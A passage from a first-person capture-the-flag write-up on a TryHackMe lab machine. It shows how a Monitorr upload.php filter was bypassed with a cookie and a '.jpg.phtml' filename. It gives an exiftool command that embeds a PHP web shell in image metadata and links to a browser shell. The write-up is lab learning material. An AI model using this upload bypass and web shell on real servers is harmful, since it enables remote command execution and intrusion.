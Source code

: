 I also noticed that the browser console in this page was printing a lot of information (Maybe debug mode?) and i found this `JSON credentials` thing in the console:

```
Stored JSON credentials: {"Servers":[{"DateLastAccessed":1619375869109,"LastConnectionMode":2,"ManualAddress":"http://<MACHINE_IP>:8096","manualAddressOnly":true,"Name":"petshop","Id":"b6c698509b83439992b3e437c87f7fb5","LocalAddress":"http://<LOCAL_MACHINE_IP>:8096"}]}
```

I can see the local address of the machine (THM VPN) and some ids that don't work in the beta site, sad.

### Wait a minute... RCE?

To be honest i spent hours trying to figure what to do next and trying to get something of the databases in  https://monitorr.robyns-petshop.thm. I went to sleep and when i woke up i checked the monitorr repo again. I saw an `upload.php` file in the `assets/php` folder... wait... Is that in the box? How could i have missed it? So yeah... i checked and in fact it was there, im stupid and i had tunnel vision with the databases and the data directories.

So i looked through the `upload.php` code in the github repo and looks like the validation is done using `getimagesize` what is exploitable. I started up `postman` and started trying to `POST` an image (the parameter for the file to upload is called `fileToUpload` by the way) and what i got? "You are an exploit." WAIT WHAT? No this wasn't a bad thing, was just a beach image wtf. But i saw the problem more or less quick, i needed to add to `postman` the cookie `isHuman` with the value 1.

After configuring `postman` with the cookie i was able to update my image. I noticed that this file wasn't exactly the same as the one i saw in GitHub because it was checking the extensions too and also was checking for the substring `php` anywhere in the filename. After some digging i got an image called `example.jpg.phtml` through the filter. I tried to upload a `php` file named that way but no luck, probably is using the `getimagesize` function too but i think i can bypass that too.

Using `exiftool` i added a payload as metadata to a normal image (Ty Ironhackers for the cheatsheet):
```
exiftool -Comment="<?php echo '<form action=\''.\$PHP_SELF.'\' method=\'post\'>Command:<input type=\'text\' name=\'cmd\'><input type=\'submit\'></form>'; if(\$_POST){system(\$_POST['cmd']);} __halt_compiler();" example.jpg
```
After that i renamed the image `example.jpg` to `example.jpg.phtml` and uploaded it. The file passed through the filer and when i checked the `assets/data/usrimg/` folder and clicked on it... there it was, my little form to send commands. RCE YEYYYY.

### flag1.txt

Before trying to get a shell i got the first flag using: `cat ../../../../flag1.txt`

```
THM{**************************}
```

### Reverse shell... kind of

After some time trying to get a reverse shell i couldn't get it working so a used this: https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php. Is a shell in the browser so at least is easier to explore the machine while a guess why i can't get a reverse shell on my site.
